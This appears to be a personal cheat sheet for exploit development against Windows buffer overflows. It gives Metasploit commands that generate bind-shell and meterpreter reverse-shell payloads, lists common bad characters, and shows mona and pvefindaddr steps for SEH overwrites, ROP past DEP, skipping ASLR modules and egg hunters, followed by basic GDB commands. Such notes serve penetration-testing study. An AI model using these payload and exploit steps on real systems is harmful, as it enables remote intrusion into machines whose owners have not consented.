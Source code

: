 ## Buffer Overflows
Buffer Overflow Commands:

msfpayload windows/shell_bind_tcp R | msfencode -a x86 -b “\x00″ -t c
msfpayload windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 R | msfencode -e x86/shikata_ga_nai -b “\x00″ -t c

COMMONLY USED BAD CHARACTERS:

\x00\x0a\x0d\x20 For http request
\x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c Ending with (0\n\r_)

Useful Commands:

pattern create
pattern offset (EIP Address)
pattern offset (ESP Address)

add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )
!pvefindaddr pattern_create 5000
!pvefindaddr suggest
!pvefindaddr modules
!pvefindaddr nosafeseh
!mona config -set workingfolder C:\Mona\%p
!mona config -get workingfolder
!mona mod
!mona bytearray -b “\x00\x0a”
!mona pc 5000
!mona po EIP
!mona suggest

SEH:

!mona suggest
!mona nosafeseh
nseh=”\xeb\x06\x90\x90″ (next seh chain)
iseh= !pvefindaddr p1 -n -o -i (POP POP RETRUN or POPr32,POPr32,RETN)

ROP (DEP):

!mona modules
!mona ropfunc -m *.dll -cpb “\x00\x09\x0a’
!mona rop -m *.dll -cpb “\x00\x09\x0a’ (auto suggest)

ASLR:

!mona noaslr

EGG Hunter:

!mona jmp -r esp
!mona egg -t lxxl
\xeb\xc4 (jump backward -60)
buff=lxxllxxl+shell
!mona egg -t ‘w00t’

GDB Debugger Commands:

Setting Breakpoint :

break *_start

Execute Next Instruction :

next
step
n
s

Continue Execution :

continue
c

Data :

checking ‘REGISTERS’ and ‘MEMORY’

Display Register Values : (Decimal , Binary , Hex )

print /d –> Decimal
print /t –> Binary
print /x –> Hex

O/P :

(gdb) print /d $eax
$17 = 13
(gdb) print /t $eax
$18 = 1101
(gdb) print /x $eax
$19 = 0xd
(gdb)

Display values of specific memory locations :

command : x/nyz (Examine)
n –> Number of fields to display ==>
y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)




